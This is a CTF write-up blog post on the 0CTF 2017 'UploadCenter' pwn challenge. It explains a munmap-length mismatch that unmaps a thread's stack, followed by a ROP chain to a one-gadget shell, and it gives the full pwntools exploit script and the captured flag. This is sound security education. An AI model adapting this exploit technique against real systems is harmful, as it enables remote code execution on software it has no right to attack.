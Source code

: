 ```yaml
---
layout: post
title: "0CTF 2017 Quals: UploadCenter (pwn, 523pts)"
modified: 2017-03-21
tags: 0ctf, 0ctf2017quals, pwn
---
```


After reversing the binary it turned out the structure of the challenge is the usual menu system based pwn challenge.

We had the following menus:
 - "1 :) Fill your information"
   - It reads your team name to a 20 byte buffer and prints it out. It can be used to leak data from stack if you don't fill the 20 byte buffer. For example it can be used to leak the heap base address. But we never used this vulnerability in the final exploit.
 - "2 :) Upload and parse File"
   - This is where the main functionality lies: you can upload a zlib-compressed PNG image, it will parse its headers, allocate a *width\*height-sized buffer with mmap*, and copies the content into it (but limits the size to the buffer length, so it does not cause overflow). It also puts various metadata into a linked list about these uploaded files, including the decompressed content's size.
 - "3 :) Show File info"
   - Prints out the width, height and "pixels" (bit depth) properties of the chosen file. Not used in the exploit.
 - "4 :) Delete File"
   - Deletes a selected file. Munmaps its content (based on the decompressed content's length), frees it's metadata and unlinks the item from the linked list. We will use the munmap in the exploit.
 - "5 :) Commit task"
   - Creates a thread which prints out every file's width, height, bit depth. You can only call this method six times. Not used in the exploit, probably just a red herring :)
 - "6 :) Monitor File"
   - Create a thread which notifies you if a new file was uploaded. It uses a conditional variable (and mutex) to block until the main thread notifies it.
 - 8 - a hidden "backdoor"
   - It's a gets-based stack overflow, but exits immediately after it overwrites the stack. Although the deinitialization logic runs in the exit call, the stack overflow is still not exploitable this way. It's obviously there just for misleading us.
   
There are a few misleading / non-exploitable functionality (including the whole PNG parsing), but there is something fishy going on with the content length calculation when it allocates the buffer based on the width and height instead of the decompressed content length.

Also despite that the PNG is a compressed file format, there is an additional layer of compression which is a hint about that we may have to send a lot of data. As we will see later, our hunch was not unfounded.

If we take a closer look at the buffer allocation, it turns out fast that the  allocation size and the length used for munmap can differ.

This is exactly the same situation that my teammate *tukan* described in [one of his ptmalloc fanzine back in 2016](http://tukan.farm/2016/07/27/munmap-madness/), so he could point us into the correct direction right away.

Although the next mapped memory segment after our mmap'd allocation is either the read-only data section of the libc or the guard page before the stack of a thread created by either the 5th or 6th menu item, the munmap can remove them if we use a bigger length than the original allocation was.

So our plan is the following:
 - create a long-running thread (with 6th menu item), which will mmap a thread stack (the size is architecture dependent, but was 8MB on x64).
 - the thread waits for the condition variable until we upload a new file
 - upload a file whose decompressed length is bigger than the allocation size, so munmap will remove the following mmap'd segment too
   - I used the following values: width = 1024, height = 1024, width * height = 1MB, decompressed length = 9MB (1MB my content + 8MB overflow into the thread's stack)
 - delete this file with the 4th menu item
   - although the thread's stack is unmapped, the thread won't wake up, so this won't cause any problem (segmentation fault for example)
 - upload a new, fake thread stack (8MB), and putting a ROP chain in the place of the original stack where the execution returns
   - we also have to restore a few variables (like mutex and cond) so the waking up thread won't crash immediately or behave incorrectly
 - the ROP chain does the following:
   - leaks libc address (puts in our case)
   - unlocks the mutex, so the main thread won't block anymore
   - make the thread sleep forever, so its broken state won't cause any problems for us (for example race condition)
 - we calculate the address of one of the one-gadget-RCEs ([https://github.com/david942j/one_gadget](thanks david942j for his tool))
   - calling system did not work for me, probably something broke meanwhile
 - we repeat everything from the beginning, but this time we call the one-gadget-RCE in the ROP chain

Executing our plan actually worked and give us a shell.
 
We found the flag in the /home/uploadcenter/flag file:

{% highlight text %}
flag{M3ybe_Th1s_1s_d1ffer3nt_UAF_Y0U_F1rst_S33n}
{% endhighlight %}

Below the whole exploit:

{% highlight python %}
#!/usr/bin/env python2
from pwn import *
import time
import zlib

REMOTE = True

def readMenu():
    print '\n'.join([' < '+x for x in p.recvuntil('1 :) Fill your information', drop=True).strip().split('\n')])
    p.recvuntil('6 :) Monitor File\n')

skipReadMenu = False
    
def cmd(cmdIdx):
    global skipReadMenu
    if skipReadMenu:
        skipReadMenu = False
    else:
        readMenu()
    print '> cmd: %d' % cmdIdx
    p.sendline(str(cmdIdx))
    
def fillInfo(teamName, memberCount):
    cmd(1)
    p.sendlineafter('Your team name : ', teamName)
    p.sendlineafter('Member count : ', str(memberCount))
    
def upload(data):
    cmd(2)
    p.send(p32(len(data)))
    p.send(data)
    
def showFileInfo(fileId):
    cmd(3)
    p.sendlineafter('which file you want to show ?', str(fileId))

def delete(fileId):
    cmd(4)
    p.sendlineafter('which file you want to delete ?', str(fileId))
    
def commitTask():
    cmd(5)
    
def monitorFile():
    cmd(6)

def genPngEx(width, height, colorType, bitDepth, chunks):
    # must be zero, otherwise won't parse png
    comprMethod = 0
    filterMethod = 0
    interlaceMethod = 0

    ihdrLen = 13 # not checked
    with context.local(endian='big'):
        res = '\x89PNG\r\n\x1A\n' + p32(ihdrLen) + 'IHDR' + p32(width) + p32(height) +\
            chr(bitDepth) + chr(colorType) + chr(comprMethod) + chr(filterMethod) + chr(interlaceMethod) + 'A'*4 # crc
        
        for chunk in chunks:
            res += p32(chunk['size']) + 'IDAT' + chunk['data'] + 'A'*4 # crc
            
        res += p32(0) + 'IEND' + 'A'*4 # crc
    
    return res
    
def genPng(width, height, chunks):
    return genPngEx(width, height, 2, 8, [{'size': len(x), 'data': x} for x in chunks])

if REMOTE:
    p = remote("202.120.7.216", 12345)
else:
    p = process('./uploadcenter')
    time.sleep(1)

mutex = 0x60E160
cond = 0x60E1A0
popRdiRet = 0x4038B1
puts = 0x400AF0
gotPuts = 0x60E028
sleep = 0x400C30
mutexUnlock = 0x400BB0

def rop(ropchain, stage2):
    global skipReadMenu
    
    monitorFile()
    p.recvuntil('I will remind you')
    skipReadMenu = True

    delSize = 9*1024*1024# - 8*4096
    print 'delete size = %d' % delSize
    png = genPng(1024, 1024, ['A'*(delSize)])
    print 'payload length = %d' % len(png)
    upload(zlib.compress(png))

    p.recvuntil('New file uploaded, Please check')
    skipReadMenu = True

    delete(1 if stage2 else 0)
    split = 4393

    readMenu()
    skipReadMenu = True

    payload = 'C'*8 + p64(cond) + p64(mutex) + 'F'*8 + 'G'*8 + ropchain + '\0'*(split-8*5-len(ropchain))
    upload(zlib.compress(genPng(8*1024, 1024, ['A'*(8*1024*1024-split) + payload])))

ropchain = \
    p64(popRdiRet) + p64(gotPuts) + p64(puts) +\
    p64(popRdiRet) + p64(mutex) + p64(mutexUnlock) +\
    p64(popRdiRet) + p64(60) + p64(sleep)

rop(ropchain, False)
    
p.recvuntil('byte data\n')
gotLeak = p.recvline()
print 'gotLeak = %r' % gotLeak
if gotLeak.startswith('1 :) Fill your'):
    p.recvuntil('6 :) Monitor File\n')
    gotLeak = p.recvline()

print 'gotLeak = %r' % gotLeak
putsLibc = u64(gotLeak.strip().ljust(8, '\0'))
print 'putsLibc = %016x' % putsLibc

if REMOTE:
    p.sendline('')
    libcBase = putsLibc - 0x7ffff787f990 + 0x7ffff7814000
    oneGadget = libcBase + 0x41374
else:
    system = putsLibc - 0x7ffff7860690 + 0x7ffff7836390 # local ubuntu
    libcBase = putsLibc - 0x7ffff7860690 + 0x7ffff77f1000 # local ubuntu
    oneGadget = libcBase + 0x4526a # local ubuntu

rop(p64(oneGadget), True)

p.interactive()
{% endhighlight %}